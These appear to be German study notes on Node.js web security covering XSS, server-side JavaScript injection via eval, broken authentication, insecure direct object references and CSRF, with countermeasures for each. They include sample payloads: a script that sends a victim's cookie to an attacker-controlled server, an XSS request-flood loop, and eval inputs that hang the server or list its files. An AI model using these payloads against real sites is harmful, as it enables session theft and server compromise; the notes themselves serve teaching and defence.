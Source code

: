 # Web Security

Motivation für Websecurity:

* Imageverlust, rechtliche Folgen/Haftung
* Später Einbau von Sicherheit ist aufwändig und unsicher

Vulnerability
: Angriffsmöglichkeit

Angriff / Attack Vector
: Details/Schritte einer Angriffsmöglichkeit

Malitious Code
: Angriffs-Code, Schadcode

Injection Attack
: Angriff bei dem einem System Code zur Ausführung untergeschoben wird

XSS
: Cross Site Scripting. Eine Angriffsmethode bei der in einer Web-Seite im Browser des Opfers eingeschleustes JavaScript zur ausgeführt wird. XSS würden besser als “JavaScript Browser Injection“ Attacken bezeichnet werden.

## Cross-Site-Scripting (XSS)
> drei wirksame Massnahmen,um Webapp abzusichern
> ➪ Umsetzen können: PRÜFUNG?!

Bei XSS wird der Server Server bzw. die Daten des Servers so manupuliert, dass Schadcode (JavaScript) eines Angreifers an Nutzer (Opfer) ausgeliefert wird und im Browser dieser Nutzer ausgeführt wird.

### Beispiel

Von Nutzern in einem Formular eingegebene Daten werden ohne "escaping"/Nachbereitung an andere Nutzer ausgeliefert - beispielsweise alle Username in Admin-Konsole.

Folgender Input sendet das cookie der aktuellen seite an einen anderen Server.

```html
fakeUser<script>document.body.innerHTML +=
    '<img src="http://localhost:8081/?cookie='
    + escape(document.cookie) + '">';</script>
```

Der Angreiffer bekommt nun das Cookie und kann mit dem die Session übernehmen:
```js
document.cookie = unescape(cookie);
```

Mit XSS wäre auch ein DDos Angriff möglich
```html
<script>function ddos(){
    document.body.innerHTML += <img src="http://path-to-vulnerable-resource/">;
    setTimeout(function(){ddos()}, 2000)};
    ddos();
</script>
```

### Gegenmassnahmen
* Kontext-sensitives Data Encoding aka. "escaping". bzw. Input Validierung bei der Entgegennahme der Daten
* Content Security Policy (CSP) im Header setzen: z.B. nur die Source Domain und eine REST Service darf kontaktiert werden.
* Bei Cookies soweit möglich das HTTPOnly Flag setzen

```js
app.use(express.session({
    secret: "server secret",
    key: "sessionId",
    cookie: {
        httpOnly: true,
        secure: true
    }
}))
```

!!! todo

    Evtl [konkrete escaping Tabelle](http://nodegoat.herokuapp.com/tutorial/a3) einbinden

→ Verbesserung des Encodings / Filtering

## JS Code Injection
Angreifer kann den Server dazu bringen, vom Angreifer eingeschleuster code Auszuführen. Bei Node ist das JavaScript - könnte in anderem Kontext aber bsp. Python oder PHP Code sein.

### Beispiel
```js
// Insecure use of eval() to parse inputs
var preTax = eval(req.body.preTax);

// Geht aber auch mit setTimeout, setInterval
window.setTimeout("alert('Hello World!');", 500);
// und new Function
new Function("return x;");
```

Mögliche Möglicher Angriff

```js
while(true){/*Loop forever*/}
```

```js
res.end(require('fs').readdirSync('.').toString())
```

### Gegenmassnahmnen

* EVAL ist EVIL.
* `parseInt` und `JSON.parse` verwenden.
* Globale Scopes und Variablen reduzieren.
* Rechenintensive Tasks mit `childprocess.spawn` auslagern
* Node nicht als Root
* `x-powered-by` Header abstellen. `app.disable('x-powered-by');`

## Broken Authentication and Session Management

Bei Problemen bei der Authentisierung und dem Session Management können externe Angreifer oder **Angreifer** mit einem validen Login **auf Informationen zugreifen welche nicht für sie bestimmt sind**.

### Beispiele
* Passwort oder Token wird nicht verschlüsselt übertragen (Unabhängig  GET/POST) ➪ Mit Sniffer auslesbar.
* Session Timeout ist zu lang
* Kennwörter unverschlüsselt in DB

### Gegenmassnahmen
* HTTPS Nutzen
* Session Timeout für sensible Daten und Operationen sinnvoll setzen.
* Kennwörter verschlüsselt in DB

## Insecure Direct Object References

Wenn eine Referenz auf ein intern implementiertes Objekt (Bsp. Datei, Verzeichnis oder DB-Key). Ohne Zugriffskontrolle oder andere Schutzmechanismen kann der Angreiffer über diese Referenzen unberechtigte Daten verändern.

### Beispiel
User ID nur in URL codiert `www.retureEasy.com/stockportfolio/:userId`, aber auf der Seite wird nicht geprüft, ob der Aktuelle user auch diese ID hat.

### Gegenmassnahmen
Bei alle Seiten mit benutzerspezifischen Daten vor der Anzeige sicher stellen, dass der eingeloggte User berechtigt ist, die Daten zu sehen/bearbeiten.

In Node können solche Checks mittels Middlewares implementiert werden.

```js
function requireLogin(req, res, next) {
    if (typeof(req.session.user_id) == "number") {
        next();
    } else {
        res.send(401, 'not authorized');
    }
}
```

## Cross Site Request Forgery
Eine CSRF Attacke zwingt den Browser des Opfers, einen gefälschten HTTP request (inklusive dessen Session-Cookie und anderen Authentifizierungsdaten) an einen verwundbaren webserver zu senden. Dies ermöglicht dem Angreiffer. Damit kann der Angreiffer über den Browser des Opfers ANfragen auf die verwundbare Appliatkion ausführen.


### Beispiele
Der Nutzer ist aktuell bei RetireEasy eingelogged, er wird aber (z.B. über einem Link in einem E- Mail) auf eine Seite mit Schadcode gelockt. Diese Seite generiert einen Formular-Post-Request auf die RetireEasy/profile Seite mit gefälschten Daten für das Profil.

### Gegenmassnahmen
* Generieren von server-seigigen Security Tokens.
* Einbetten in Formular (Hidden fields)
* Prüfen bei Request

## Top Overlooked Security Threats To NodeJS Web Applications

!!! seealso

    * http://nodegoat.herokuapp.com/tutorial
    * https://blog.risingstack.com/node-js-security-checklist/
